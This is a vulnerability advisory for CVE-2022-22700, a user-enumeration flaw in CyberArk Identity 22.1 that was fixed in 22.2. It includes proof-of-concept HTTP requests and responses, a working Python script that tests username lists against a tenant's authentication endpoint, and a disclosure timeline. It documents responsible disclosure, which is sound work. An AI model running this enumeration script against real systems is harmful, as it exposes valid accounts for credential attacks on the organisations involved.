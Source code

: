 ```yaml
---
slug: advisories/porter/
title: CyberArk Identity 22.1 Vulnerability
authors: Andres Roldan
writer: aroldan
codename: porter
product: CyberArk Identity
date: 2022-02-15 12:00 COT
cveid: CVE-2022-22700
description: CyberArk Identity 22.1 User Enumeration
keywords: Fluid Attacks, Security, Vulnerabilities, CyberArk, Identity
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                         |                                                            |
|-------------------------|------------------------------------------------------------|
| **Name**                | CyberArk Identity 22.1 User Enumeration                    |
| **Code name**           | [Porter](https://en.wikipedia.org/wiki/Cole_Porter)        |
| **Product**             | CyberArk Identity                                          |
| **Affected versions**   | 22.1 and below                                             |
| **Fixed versions**      | 22.2                                                       |
| **State**               | Public                                                     |

## Vulnerability

|                       |                                                                  |
|-----------------------|------------------------------------------------------------------|
| **Kind**              | User Enumeration                                                 |
| **Rule**              | [225. Proper Authentication Responses](https://docs.fluidattacks.com/criteria/requirements/225)                                                          |
| **Remote**            | Yes                                                              |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N                     |
| **CVSSv3 Base Score** | 5.3                                                              |
| **Exploit available** | Yes                                                              |
| **CVE ID(s)**         | [CVE-2022-22700](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22700)                                                    |

## Description

CyberArk Identity versions up to and including 22.1 in the
`StartAuthentication` resource, exposes the response header `X-CFY-TX-TM`.
In certain configurations, that response header contains different, predictable
value ranges which can be used to determine wether a user exists in the tenant.

## Proof of Concept

- A request is sent with a known valid user

Request:

```json
POST /Security/StartAuthentication HTTP/1.1
Host: customer.my.idaptive.app
Content-Length: 143
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Content-Type: application/json

{"TenantId":"","User":"admin@customer.com","Version":"1.0","AssociatedEntityType":"Portal","AssociatedEntityName":"Portal","ZsoSessionId":""}
```

Response:

```json
HTTP/1.1 200 OK
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Content-Type: application/json; charset=utf-8
X-CFY-TX-TM: 109
...
```

In the cases when the user exists, the value of `X-CFY-TX-TM`
is always less than `500`.

- A request is sent with a non existent user

Request:

```json
POST /Security/StartAuthentication HTTP/1.1
Host: customer.my.idaptive.app
Content-Length: 147
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Content-Type: application/json

{"TenantId":"","User":"notexists@customer.com","Version":"1.0","AssociatedEntityType":"Portal","AssociatedEntityName":"Portal","ZsoSessionId":""}
```

Response:

```json
HTTP/1.1 200 OK
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Content-Type: application/json; charset=utf-8
X-CFY-TX-TM: 1492
...
```

In the cases when the user does not exist, the value of `X-CFY-TX-TM`
is always above than `1000`.

## Exploit

The following code was used to enumerate valid users:

```python
#!/usr/bin/env python
#
# Author: aroldan@fluidattacks.com

import json
import requests
import sys

URL = 'https://<customer>.my.idaptive.app/Security/StartAuthentication'
RAW_DATA =  '{"TenantId":"","User":"test@customer.com","Version":"1.0","AssociatedEntityType":"Portal","AssociatedEntityName":"Portal","ZsoSessionId":""}'
JSON_DATA = json.loads(RAW_DATA)

with open(sys.argv[1], 'r') as fd:
    USERS = [x.rstrip() for x in fd.readlines()]

for USER in USERS:
    VALUE = 10000
    PAYLOAD = JSON_DATA
    PAYLOAD['User'] = USER
    RESP = requests.post(URL, json=PAYLOAD)
    if 'X-CFY-TX-TM' in RESP.headers:
        VALUE = int(RESP.headers['X-CFY-TX-TM'])
    if VALUE < 1000:
        print(VALUE)
        print(f'[+] User {USER} exists.')
    else:
        print(f'[-] User {USER} not exists.')
```

## Credits

The vulnerability was discovered by [Andrés
Roldán](https://www.linkedin.com/in/andres-roldan/) from the Offensive
Team of  `Fluid Attacks`.

## References

|                     |                                                                     |
|---------------------|---------------------------------------------------------------------|
| **Vendor page**     | <https://www.cyberark.com/resources/cyberark-identity/>                                     |
| **Changelog**     | <https://docs.cyberark.com/Product-Doc/OnlineHelp/Idaptive/Latest/en/Content/ReleaseNotes/ReleaseNotes-Latest.htm>                                     |

## Timeline

- 2021-09-28: Vulnerability discovered in customer engagement.

- 2021-09-29: Customer notified of vulnerability.

- 2022-01-21: Customer approval to contact vendor.

- 2022-02-05: Vendor contacted.

- 2022-02-16: Vendor asked for more information.

- 2022-02-25: Version 22.2 released with fix.

- 2022-02-28: Vendor confirmed patch.